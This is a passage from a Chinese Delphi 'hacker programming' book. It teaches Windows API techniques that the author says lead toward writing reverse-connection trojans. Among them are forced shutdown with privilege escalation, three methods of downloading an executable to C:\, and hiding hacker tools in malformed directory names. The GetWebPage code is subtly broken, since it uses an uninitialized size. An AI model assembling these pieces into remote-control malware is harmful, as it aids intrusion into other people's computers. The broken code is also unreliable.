许多读者在使用灰鸽子或黑洞等反弹木马的时候都会发现它们有远程主机信息查看功能，比如可以查看对方的计算机名称、系统用户名等，本小节我们就介绍如何通过 DELPHI 获取计算机的名称。这样在经过点点滴滴的技术积累之后，我们距离编写 DELPHI 反弹木马的道路上就又更近一步了。

首先，创建一个 DELPHI 程序，在主界面上添加一个按钮，如图 2.54。
获得计算机的名称，其实是使用到了一个 API 函数 GetComputerName，最后的代码如下。

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  CNameBuffer: PChar;
  fl_loaded: Boolean;
  CLen: ^DWORD;
  ComputerName: string;
begin
  GetMem(CNameBuffer, 255);   // 给数组分配内存
  New(CLen);
  CLen^ := 255;

  fl_loaded := GetComputerName(CNameBuffer, CLen^);   // 使用 API 函数获取计算机名称
  if fl_loaded then
    ComputerName := StrPas(CNameBuffer)   // 得到计算机名称
  else
    ComputerName := 'Unknown';

  Form1.Caption := ComputerName;   // 显示计算机名称
  FreeMem(CNameBuffer, 255);
  Dispose(CLen);
end;

end.


```按 F9 运行程序，点击“获取计算机名”按钮，就可以在标题上显示本地计算机的名称了，如图 2.55。
图 2.55

## 2.6 系统相关操作

DELPHI 对系统的控制有很好的支持功能，接下来我们介绍如何使用 DELPHI 来实现一些系统的操作，比如获取屏幕分辨率、WINDOWS 消息编程。

### 2.6.1 更换壁纸

许多木马都有更换桌面壁纸的功能，如何使用 DELPHI 来实现桌面壁纸的更换呢？首先创建一个新的应用程序，然后添加一个编辑框和一个按钮，如图 2.56。
图 2.56

设置壁纸其实是使用到了一个 API 函数 SystemParametersInfo，通过给这个 API 函数的参数赋值就可以实现对系统桌面的壁纸进行更换了，代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Edit1: TEdit;
    Label1: TLabel;
    Button1: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  THEPCHAR: string;
begin
  if Edit1.Text='' then
  begin
    ShowMessage('请输入壁纸地址！');
    Exit;
  end;

  THEPCHAR:=Edit1.Text;
  SystemParametersInfo(SPI_SETDESKWALLPAPER,
    0, PChar(THEPCHAR), SPIF_SENDWININICHANGE);
end;

end.


```
图 2.57
图 2.58

来看我默认使用的桌面壁纸，如图 2.57。此时可以看到我电脑的 C 盘中有一个 BMP 文件，如图 2.58。我们按 F9 运行刚才编写的程序，在壁纸地址中输入上面那个 BMP 文件的路径，然后点击“更换壁纸”按钮，如图 2.59，就可以看到系统的桌面壁纸已经被成功地更换掉了，如图 2.60。

### 2.6.2 无标题程序的移动

相信大家都使用过一些无标题栏的软件吧，比如酷狗。由于没有使用系统默认的标题栏，所以程序的界面更加美观，那么要如何实现无标题程序的移动呢？
图 2.59
图 2.60

首先新建一个工程，然后设置窗体没有边框，也就是设置 BorderStyle 为 bsNone；如图 2.61、图 2.62。

自定义了一个消息过程 WmNcHittest，它可以捕获 WM_NCHITTEST 消息，在这个消息中可以得到程序的移动位置等信息，通过这个来实现对窗体位置的控制，最后的代码如下：
图 2.61

图 2.62

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Label1: TLabel;
    Label2: TLabel;
    procedure Button1Click(Sender: TObject);
  private
    procedure WmNcHittest(var Msg: TWMNCHitTest); message WM_NCHITTEST;
    // 过程声明
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

// 以下的过程代码需要自己手工加入
procedure TForm1.WmNcHittest(var Msg: TWMNCHitTest);
begin
  inherited;
  if (HTCLIENT = Msg.Result) then
    Msg.Result := HTCAPTION;
  // 使用 WM_NCHITTEST 消息判断鼠标所在窗口的部位
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  Close;
end;

end.


```

按 F9 运行程序，可以看到程序是没有边框的，但是却可以正常拖动，如图 2.63。这样，读者朋友们就可以在此基础上完善一下，制作出更加精美的界面了。
图 2.63

图 2.64
图 2.65

### 2.6.3 让程序支持文件拖放

使用过查壳工具 PEiD 的读者朋友对于 PEiD 的文件拖放功能都非常熟悉吧，只要把一个文件拖放到 PEiD 窗口上，PEiD 就可以显示出这个文件的壳信息了，也就是说 PEiD 能够识别出拖放到它窗口界面的程序的路径信息。那么它是如何做到的呢？下面我们就来介绍一下如何编写支持拖放的程序。

首先新建一个工程，然后添加一个 Memo 组件到窗口中，如图 2.64。

由于需要使用到 API 函数，所以我们要在 uses 语句之后添加 ShellAPI 库，如图 2.65。

程序的实现原理就是先使用 DragAcceptFiles 设置窗口可以接受文件的拖放，然后程序又自定义了一个消息过程 WmDropFiles 来实现对消息 WM_DROPFILES 的捕获，最后在自定义的消息中处理指定消息被发送过来的处理流程，程序的代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ShellAPI;
  // 手工加入 ShellAPI

type
  TForm1 = class(TForm)
    Memo1: TMemo;
    procedure FormCreate(Sender: TObject);
  private
    procedure WmDropFiles(var Message: TMessage); message WM_DROPFILES; // 手工声明过程
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

//-------------------------------------------------------------- 自定义过程
procedure TForm1.WmDropFiles(var Message: TMessage);
var
  p: array[0..254] of Char;
  i: Word;
begin
  inherited;
  Memo1.Lines.Clear; // 每次新的拖放都清除 MEMO1 中原来的内容
  {$IFDEF WIN32}
  i := DragQueryFile(Message.WParam, $FFFFFFFF, nil, 0);
  {$ELSE}
  i := DragQueryFile(Message.WParam, $FFFF, nil, 0);
  {$ENDIF}
  Caption := IntToStr(i); // 得到拖放的文件个数，并且显示在窗体标题栏上面
  for i := 0 to i - 1 do
  begin
    DragQueryFile(Message.WParam, i, p, 255); // 其中参数 P 中得到了拖放的文件路径
    Memo1.Lines.Add(StrPas(p)); // 显示文件路径
  end;
end;

//——————————————————————————————

procedure TForm1.FormCreate(Sender: TObject);
begin
  DragAcceptFiles(Form1.Handle, True); // 设置窗口可以接受文件的拖放。
end;

//——————————————————————————————

end.


```

按 F9 运行程序，拖放一个程序文件到窗口的 Memo 组件中，可以看到 Memo 组件马上显示了该文件的路径，如图 2.66。选择三个文件，然后全部拖放到 Memo 组件上，可以看到 Memo 组件把所有的路径全部显示出来了，如图 2.67。
### 2.6.4 获取屏幕分辨率

在一些木马中，往往都会显示对方主机的分辨率，这里就介绍两种简单的方法来得到主机的分辨率。首先新建一个工程，然后添加两个标签控件，再添加一个按钮组件，如图 2.68。设置两个标签组件的 AutoSize 属性为 False，也就是不支持自动变化大小，如图 2.69。
本例演示了两种方法来获取屏幕的分辨率，一种是使用到了 Screen 对象，一种是使用到了 GetSystemMetrics 函数，通过给 GetSystemMetrics 函数发送不同的参数就可以得到屏幕的横向和纵向分辨率了，代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Label1: TLabel;
    Label2: TLabel;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  x: LongInt;
  a: string;
begin
  //------------------------------ 使用 GetSystemMetrics 函数获得分辨率
  x := GetSystemMetrics(SM_CXSCREEN);    // CXSCREEN
  Str(x, a);
  Label1.Caption := '显示器水平分辨率' + a;

  x := GetSystemMetrics(SM_CYSCREEN);    // CYSCREEN
  Str(x, a);
  Label2.Caption := '显示器垂直分辨率' + a;
  //------------------------------

  //------------------------------ 使用 Screen 对象获得分辨率
  Form1.Caption := '分辨率：' + IntToStr(Screen.Width) + '×' + IntToStr(Screen.Height);
  //------------------------------
end;

end.


```

按 F9 运行程序，点击“分辨率”按钮，可以看到程序使用了两种方法分别实现了对系统分辨率的获取，如图 2.70。

### 2.6.5 编写系统托盘程序

很多程序都可以在系统托盘处显示，比如我们的拨号上网程序，就会在系统托盘处显示，而不是在任务栏显示出来，这样的好处自然不言而喻。本小节我们就来研究如何实现托盘程序的编写。首先新建一个工程，并且添加一个菜单组件到窗口上，如图 2.71。
图 2.70

图 2.71

为了将托盘程序的编写模块化和简单化，我们使用到了一个托盘类单元。要想使用这个单元，就要先新建一个单元文件，如图 2.72。此时，读者朋友们可以到 http://hi.baidu.com/pespin/blog/item/f8843eddc5cac4df8d10295c.html 复制一个 DELPHI 托盘单元文件到新建的 Unit2 中，如图 2.73。把上面的 DELPHI 托盘单元全部复制到 Unit2 中，如图 2.74。
图 2.72

图 2.73

现在就可以编写代码了，在 Unit1 中可以使用下面的代码来调用 Unit2 的托盘单元。

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants,
  Classes, Graphics, Controls, Forms,
  Dialogs, Unit2, Menus;

type
  TForm1 = class(TForm)
    PopupMenu1: TPopupMenu;
    N1111: TMenuItem;
    N2221: TMenuItem;
    procedure FormCreate(Sender: TObject);
    procedure N1111Click(Sender: TObject);
    procedure N2221Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;
  tray: TTrayNotifyIcon;  // 1. 定义全局变量

implementation

{$R *.dfm}

procedure TForm1.FormCreate(Sender: TObject);  // 2. 添加代码
begin
  tray := TTrayNotifyIcon.Create(Self);  // 将窗体创建为托盘
  tray.Icon := Application.Icon;  // 定义托盘的显示图标
  tray.IconVisible := True;  // 托盘可见
  tray.PopupMenu := PopupMenu1;  // 给托盘定义一个右击时弹出来的菜单
  tray.OnDblClick := N1111Click; // trayDblClick;
  // 给托盘定义一个双击事件（当然要自己编写了，不过多数情况下有一行，就是 Form1.Show）
end;

procedure TForm1.N1111Click(Sender: TObject);  // 3. 两个菜单事件的响应代码
begin
  ShowMessage('1111');
end;

procedure TForm1.N2221Click(Sender: TObject);
begin
  ShowMessage('2221');
end;


```
图 2.74

```delphi
end;

//────────────────────────────

end.


```

按 F9 运行程序，可以看到程序的运行效果如图 2.75 所示。

## 2.6.6 WINDOWS 消息操作

在 WINDOWS 的底层编程中有个很重要的概念，那就是消息，本节我们来演示一下如何使用 SendMessage 和 PostMessage 等 API 函数实现消息的发送，从而实现在记事本中追加数据。例子程序的界面很简单，只使用到了三个按钮和一个 MEMO 组件，如图 2.76。
程序的详细代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Memo1: TMemo;
    Button2: TButton;
    Button3: TButton;
    Button1: TButton;
    procedure FormCreate(Sender: TObject);
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure Button3Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

//------------------------------
procedure TForm1.FormCreate(Sender: TObject);
begin
  Memo1.Text := 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!';
end;

//---------------------------------------------------- WM_CHAR
procedure TForm1.Button1Click(Sender: TObject);
var
  h: HWND;
  i: Integer;
  s: string;
begin
  h := FindWindow('notepad', nil);
  if h <> 0 then
  begin
    h := FindWindowEx(h, 0, 'edit', nil);
    s := Memo1.Text;

    for i := 1 to Length(s) do      // 追加
      SendMessage(h, WM_CHAR, Integer(s[i]), 0); // Word(s[i])
    // PostMessage(h, WM_KEYDOWN, VK_RETURN, 0);  // 回车
    // PostMessage(h, WM_KEYDOWN, VK_SPACE, 0);   // 空格
  end;
end;

//---------------------------------------------------- WM_SETTEXT
procedure TForm1.Button2Click(Sender: TObject);
var
  h: HWND;
  s: string;
begin
  h := FindWindow('notepad', nil);
  if h <> 0 then
  begin
    h := FindWindowEx(h, 0, 'edit', nil);
    s := Memo1.Text;
    SendMessage(h, WM_SETTEXT, 0, Integer(PChar(s))); // 一次性覆盖
  end;
end;

//------------------------------ WM_GETTEXT
procedure TForm1.Button3Click(Sender: TObject);
var
  buf: array[0..255] of Char;
  h: HWND;
begin
  h := FindWindow('notepad', nil);
  if h <> 0 then
  begin
    h := FindWindowEx(h, 0, 'edit', nil);
    SendMessage(h, WM_GETTEXT, SizeOf(buf), Integer(@buf));  // 获取记事本编辑框中的内容
    Memo1.Text := StrPas(buf);
  end;
end;

//------------------------------
end.


```

按 F9 运行程序，首先点击“追加”按钮，可以看到程序向记事本发送了 WM_CHAR 的消息，记事本中马上显示了被追加的内容，如图 2.77。

点击“覆盖”按钮，可以看到记事本程序接收到了 WM_SETTEXT 消息，记事本的内容马上被 MEMO 中的内容覆盖了，如图 2.78。
最后，点击“获取”按钮，程序向记事本发送了 WM_GETTEXT 消息，很快 MEMO 中显示了记事本中的内容，如图 2.79。

### 2.6.7 关机注销操作

在灰鸽子木马中有一个很实用的功能，就是可以关闭远程计算机，那么如何在 DELPHI 中实现对计算机的操作呢？我们可以使用 ExitWindowsEx 这个 API 函数，不过在使用这个函数关机前要首先提权，否则没有关机的权限。下面给出程序的界面，使用到了三个按钮组件，如图 2.80。

介绍一下 ExitWindowsEx 函数，执行关闭计算机或重新启动计算机的操作，可以通过调用函数 ExitWindowsEx 来实现。在 Delphi 中函数 ExitWindowsEx 的语法如下：**function ExitWindowsEx(uFlags, dwReserved: Cardinal): LongBool;**，如果调用该函数成功，则返回 True，否则返回 False。
图 2.79　　　　　　　　　　　　　　图 2.80

参数 uFlags 用于控制关闭计算机的具体操作，如 EWX_FORCE、EWX_LOGOFF、EWX_POWEROFF、EWX_REBOOT 和 EWX_SHUTDOWN 等。其中，EWX_FORCE 表示强制关闭所有进程，如果有文件未保存也不会提示用户（只有在文件锁或系统资源濒临崩溃时等情况下才建议使用该参数）。EWX_LOGOFF 为关闭所有与当前调用函数 ExitWindowsEx 相关的进程并注销用户。EWX_POWEROFF 为关闭系统并关闭电源。其中，关闭电源要求系统应支持 power-off 特性。EWX_REBOOT 为关闭系统并重新启动计算机。EWX_SHUTDOWN 为安全关闭电源后关闭系统，该操作将所有的缓存刷新到磁盘并停止所有正在运行的进程。

参数 dwReserved 被函数所忽略，可以是任意值。例如，要强制注销，可以通过如下语句来实现：**ExitWindowsEx(EWX_FORCE, 0);**。要想重新启动计算机，就可以通过如下语句来实现：**ExitWindowsEx(EWX_REBOOT, 0);**。需要提醒大家注意的是，在很多情况下，只有参数 EWX_SHUTDOWN 能够成功关闭计算机电源。程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Button2: TButton;
    Button3: TButton;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure Button3Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

//────────────────────────────────────────
procedure ShutDown(dwhat: Char); // 关机、重启、注销过程
var
  hToken: THandle;
  tkp: TOKEN_PRIVILEGES;
  rr: DWORD;
begin
  try
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES or TOKEN_QUERY, hToken);
    LookupPrivilegeValue(nil, 'SeShutdownPrivilege', tkp.Privileges[0].Luid);
    tkp.PrivilegeCount := 1;
    tkp.Privileges[0].Attributes := SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, False, tkp, 0, nil, rr);
    if dwhat = '1' then ExitWindowsEx(EWX_SHUTDOWN, 0);
    if dwhat = '2' then ExitWindowsEx(EWX_REBOOT, 0);
    if dwhat = '3' then ExitWindowsEx(EWX_LOGOFF, 0);
  except
    Exit;
  end;
end;

//────────────────────────────────────────
procedure TForm1.Button1Click(Sender: TObject);
begin
  ShutDown('1'); // 关机
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  ShutDown('2'); // 重启
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  ShutDown('3'); // 注销
end;

end.


```
按 F9 运行程序，就可以执行关机、重启或者注销操作了，如图 2.81。

## 2.7 网络相关操作

使用 DELPHI 进行黑客编程，很多情况下都需要对网络进行操作，本小节我们就介绍如何使用 DELPHI 来实现对网络的操作。

### 2.7.1 获取页面的所有超级链接

大家都使用过著名的注入工具 NBSI 吧，它有个注入点扫描功能，也就是把当前页面的所有 URL 地址全部提取出来，然后逐个进行注入测试。那么，如何在 DELPHI 中实现对页面中的所有 URL 地址的获取呢？我们建立一个工程，摆放好各个组件，如图 2.82。

添加好各个组件后，选中 WebBrowser 组件，然后来到对象监视窗口，来到 Events 事件页面，选择其中的 OnDownloadComplete 选项，然后在右侧栏双击，如图 2.83。此时，就会自动进入到代码编辑窗口并且定位到 OnDownloadComplete 事件中，编写如下的代码：
图 2.82
图 2.83

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes,
  Graphics, Controls, Forms,
  Dialogs, StdCtrls, OleCtrls, SHDocVw;

type
  TForm1 = class(TForm)
    ListBox1: TListBox;
    Button1: TButton;
    Edit1: TEdit;
    Label1: TLabel;
    WebBrowser1: TWebBrowser;
    procedure Button1Click(Sender: TObject);
    procedure WebBrowser1DownloadComplete(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  WebBrowser1.Navigate(Edit1.Text); // 打开网页
end;

procedure TForm1.WebBrowser1DownloadComplete(Sender: TObject);
var
  i: Integer;
begin
  for i := 0 to WebBrowser1.OleObject.Document.Links.Length - 1 do
    ListBox1.Items.Add(WebBrowser1.OleObject.Document.Links.Item(i).href);   // 读取链接
  // n := WebBrowser1.OleObject.Document.Links.Length;   // 链接数
end;


```

事实上，程序就是使用到 WebBrowser 组件的 Document 对象实现了对页面元素的遍历，从而得到所有的包括 A 标签的 URL 地址，最后按 F9 运行程序，在网站地址中输入我的博客地址，然后点击“获取”按钮，效果如图 2.84 所示。大家可以在此基础上进行完善，就可以编写出类似的图片下载工具甚至是猎人扫描工具了。
图 2.84

### 2.7.2 文件下载

在 DELPHI 的网络编程中，文件的下载是非常重要的功能，所以我们再重点介绍一下 DELPHI 下载文件的一些方法。

- 1. **NMHTTP 下载法**

首先介绍使用 NMHTTP 组件来下载文件的方法，我们在程序界面上放置三个按钮组件和一个编辑框组件，然后添加一个 NMHTTP 组件，此组件只在 DELPHI 6 中才有，如图 2.85。双击按钮 1 来到代码编辑窗口，输入如下的代码：

```delphi
procedure TForm1.Button1Click(Sender: TObject);
begin
  NMHTTP1.Body := 'c:\down.exe';   // 下载到 C 盘下
  NMHTTP1.InputFileMode := True;   // 设置属性，不然无法下载
  NMHTTP1.Get('http://127.0.0.1/mm.exe');   // 发送 GET 请求
end;


```

这就是调用 NMHTTP 组件的 GET 方法来实现的下载文件，按 F9 运行程序，点击第一个按钮，可以看到程序被顺利地下载到了磁盘中，如图 2.86。

- 2. **IDHTTP 下载法**

第二个要介绍的是使用 IDHTTP 组件来编写下载程序，首先在 INDY CLIENT 页面找到 IDHTTP 组件，然后添加到程序的窗体中，如图 2.87。
图 2.85

图 2.86
图 2.87

图 2.88

输入如下的代码：

```delphi
procedure TForm1.Button1Click(Sender: TObject);
var
  a: TFileStream;
begin
  a := TFileStream.Create('c:\down.exe', fmCreate);
  IDHTTP1.Get('http://127.0.0.1/mm.exe', a);
  a.Free;
end;
```

上面就是使用了文件流的方式保存了使用 IDHTTP 组件 GET 方法获得的数据，其实还可以使用内存流来保存 GET 方法获取数据，代码如下：

```delphi
procedure TForm1.Button1Click(Sender: TObject);
var
  a: TMemoryStream;
begin
  a := TMemoryStream.Create;
  IDHTTP1.Get('http://127.0.0.1/mm.exe', a);
```

```pascal
a.SaveToFile('c:\down.exe');

a.Free;

end;


```

按 F9 运行程序，也可以顺利地实现程序的下载。

## 3、API下载法

在 API 函数中有个专门用来实现下载功能的函数，它就是 URLDownloadToFile 函数，程序界面如图 2.88 所示。如果要使用 URLDownloadToFile 函数，就要引用 URLMON 库文件，添加方法如图 2.89 所示。
点击按钮 3 来到代码编辑窗口，输入如下的代码：

```pascal
procedure TForm1.Button3Click(Sender: TObject);
begin
  URLDownloadToFile(nil, PChar('http://127.0.0.1/mm.exe'), PChar('c:\down.exe'), 0, nil);
end;
```

按 F9 运行程序就可以调用 API 函数实现对程序的下载了。最后，综合上面的三种下载方法，得到了程序的全部代码，如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, Psock, NMHttp, IdBaseComponent, IdComponent,
  IdTCPConnection, IdTCPClient, IdHTTP, URLMon;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Edit1: TEdit;
    Label1: TLabel;
    Button2: TButton;
    Button3: TButton;
    NMHTTP1: TNMHTTP;
    IdHTTP1: TIdHTTP;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure Button3Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  NMHTTP1.Body := 'c:\down.exe';              // 下载到 C 盘下
  NMHTTP1.InputFileMode := True;             // 设置属性，不然无法下载
  NMHTTP1.Get('http://127.0.0.1/mm.exe');    // 发送 GET 请求
end;

procedure TForm1.Button2Click(Sender: TObject);
var
  a: TFileStream;
begin
  a := TFileStream.Create('c:\down.exe', fmCreate);
  IdHTTP1.Get('http://127.0.0.1/mm.exe', a);
  a.Free;
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  URLDownloadToFile(nil, PChar('http://127.0.0.1/mm.exe'), PChar('c:\down.exe'), 0, nil);
end;

end.


```
图 2.90

### 2.7.3 获取指定网页的源代码

在一些网络的操作中，往往会要求我们获取指定网页的源代码，通过这个我们就可以制作出自己的网页源代码查看器，从而分析目标网站是否被挂马，从而避免自己的计算机中毒。首先给出程序界面，只使用到了一个编辑框、一个按钮和一个 Memo 组件，如图 2.90。

选中 Memo1 组件，然后来到对象监视窗口，找到 ScrollBars 滚动条属性，修改属性为 ssVertical，也就是滚动条竖向显示，如图 2.91。本例子程序是实现对指定网页源代码获取的方法，为使用 API 函数 InternetReadFile 实现网络文件的读取，所以就要加入 WinInet 库的引用，如图 2.92。

使用到了一个自定义的函数 GetWebPage，这个函数只有一个参数，只要给参数赋值一个 URL 地址就可以获取网页源代码了，代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, WinInet;  // 添加 WinInet

type
  TForm1 = class(TForm)
    Button1: TButton;
    Memo1: TMemo;
    Edit1: TEdit;
    Label1: TLabel;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

//------------------------------ GetWebPage 函数
function GetWebPage(const Url: string): string;
var
  Session, HttpFile: HINTERNET;
  szSizeBuffer: Pointer;
  dwLengthSizeBuffer: DWORD;
  dwReserved: DWORD;
  dwFileSize: DWORD;
  dwBytesRead: DWORD;
  Contents: PChar;
begin
  Session := InternetOpen('', 0, nil, nil, 0);
  HttpFile := InternetOpenUrl(Session, PChar(Url), nil, 0, 0, 0);
  dwLengthSizeBuffer := 1024;
  HttpQueryInfo(HttpFile, 5, szSizeBuffer, dwLengthSizeBuffer, dwReserved);
  GetMem(Contents, dwFileSize);
  InternetReadFile(HttpFile, Contents, dwFileSize, dwBytesRead);
  InternetCloseHandle(HttpFile);
  InternetCloseHandle(Session);
  Result := StrPas(Contents);
  FreeMem(Contents);
end;

//--------------------
procedure TForm1.Button1Click(Sender: TObject);
begin
  Memo1.Text := GetWebPage(Edit1.Text);  // http:// 不能少
end;
//--------------------


```
按 F9 运行程序，在“网站地址”栏中输入要获取的网页地址，然后点击“获取”按钮就可以获取网页的源代码了，如图 2.93。

### 2.7.4 检测计算机是否联网

反弹木马有一个定时连接功能，就是一旦主机连接了网络就不断地尝试连接控制端，那么如何得到主机是否联网的信息呢，下面就为大家揭晓。首先给出程序的界面，使用到了一个编辑框，一个按钮，如图 2.94。
这里自定义了一个 InternetConnected 函数（这个自定义函数最终调用 API 函数 InternetGetConnectedState 来实现查询是否联网），如果网络连接成功，那么返回真，否则就返回假，全部的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, WinInet, StdCtrls;
  // WinInet

type
  TForm1 = class(TForm)
    Button1: TButton;
    Edit1: TEdit;
    Label1: TLabel;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

//——————————————————————————————
// 功能：检测计算机是否上网
// 返回值：成功：True 失败：False；
// 需要引用 uses WinInet；
function InternetConnected: Boolean; StdCall;
const
  INTERNET_CONNECTION_MODEM = 1;
  INTERNET_CONNECTION_LAN = 2;
  INTERNET_CONNECTION_PROXY = 4;
  INTERNET_CONNECTION_MODEM_BUSY = 8;
var
  dwConnectionTypes: DWORD;
begin
  dwConnectionTypes := INTERNET_CONNECTION_MODEM + INTERNET_CONNECTION_LAN + INTERNET_CONNECTION_PROXY;
  Result := InternetGetConnectedState(@dwConnectionTypes, 0);
end;

//——————————————————————————————
procedure TForm1.Button1Click(Sender: TObject);
begin
  if InternetConnected = True then
    Edit1.Text := 'your pc is Online now'
  else
  begin
    Edit1.Text := 'your pc is Offline now';
    // Form1.Close;
  end;
end;

//——————————————————————————————
end.


```

按 F9 运行程序，在拨号上网时，点击“检测”按钮，可以看到提示连接网络，如图 2.95。现在关闭拨号连接，再次点击“检测”按钮，可以看到编辑框提示没有连接网络，如图 2.96。
## 2.8 DELPHI程序之界面美化

都说“爱美之心人皆有之”，程序员无一例外地都希望自己的程序界面能够非常美观；读者们可以到 http://dragonkiss.ys168.com/ 下载一款 VCLSKIN 组件，它可以实现让 DELPHI 程序界面更美观，如图 2.97。
来到 DELPHI 中，依次点击“COMPONENT”－“INSTALL COMPONENT”，如图 2.98。在弹出的安装组件对话框中点击“BROWSE”浏览按钮，如图 2.99，然后在弹出的打开对话框中选择 VCLSKIN 文件夹中的 PAS 文件，如图 2.100。点击“打开”按钮，如果以前安装过该组件，此时可能会有如下提示；点击“YES”按钮即可，如图 2.101。弹出了一个改变对话框，点击“OK”确定就行了，如图 2.102。此时，就会提示包文件安装成功，如图 2.103，我们新建一个工程文件，就会弹出是否保存刚才的修改，点击“YES”保存修改，如图 2.104。现在，在 DELPHI 的组件栏中就会出现一个新的 VCL 组件了，如图 2.105，添加其中的 SkinData 组件到窗体界面上，如图 2.106，还需要修改 SkinData 组件的 Active 属性，这样才能在窗口载入中就改变窗体的外观，如图 2.107。
图 2.101
图 2.102
图 2.103
图 2.104
图 2.105
图 2.106
图 2.107

点击 SkinStore 属性后面的浏览按钮，选择皮肤文件，如图 2.108，在打开的对话框中选择 VCLSKIN 默认提供的一款皮肤即可，如图 2.109。在窗体上放置一些按钮组件和 Memo 等组件，以感受换界面后的程序和原来界面的不同，如图 2.110。

按 F9 运行程序，可以看到马上变成了 MAC 的界面样式，如图 2.111，还可以按照上面的方法选择其它的皮肤文件，就可以得到不同的窗体样式了，如图 2.112、图 2.113。这样就算是一个 DELPHI 初学者也可以很快地编写出界面精美的程序了。
图 2.108
图 2.109
图 2.110
图 2.111
图 2.112
图 2.113

## 第三章 VCL组件编程入门

对于本章所要介绍的 VCL 组件的编程，我并不希望像一般的编程书籍那样来逐个介绍组件，而是从实战的角度出发，通过具体的编程实例来介绍组件的使用方法，也就是通过一个实例的讲解，来为大家介绍如何使用相关的 VCL 组件进行有针对性的编程。我相信通过这样的方式一定能够让你快速掌握 DELPHI 的组件编程。

## 3.1 编写“秘密文件夹”

我们将通过一个秘密文件夹的编写，教会大家如何使用 Button 组件和 Edit 组件。

### 3.1.1 原理分析

在 WINDOWS 的资源管理器中是不允许创建包含有特殊符号的文件或文件夹。比如我们在桌面创建一个名为“TEST..”的文件夹，如图 3.1，那么在回车确定创建后，就会自动转换成“TEST”文件夹，也就是去掉了“..”特殊符号，如图 3.2。
图 3.1　　　　图 3.2

再比如我们打开 CMD 命令提示符，在桌面下创建一个名为“TEST..”的目录，输入命令“md test..\”，如图 3.3。返回到桌面，可以看到已经有了一个特殊的目录文件名称“TEST.”，后面有一个点符号；但是在 WINDOWS 的资源管理器中进行访问时，由于是根据文件夹的名称进行访问的，也就是说访问的是“TEST.”这个文件夹（但该文件夹实质是“TEST..”），因此也就出现了访问错误的提示，如图 3.4。
图 3.3
图 3.4

根据资源管理器的这一特性，我们就可以在 CMD 命令提示符下创建特殊的目录，把一些特殊的黑客工具存放在这样的目录下，在 WINDOWS 资源管理器中就会由于这些目录名称是非法的，而导致无法访问，也就实现了隐藏和保护的目的。

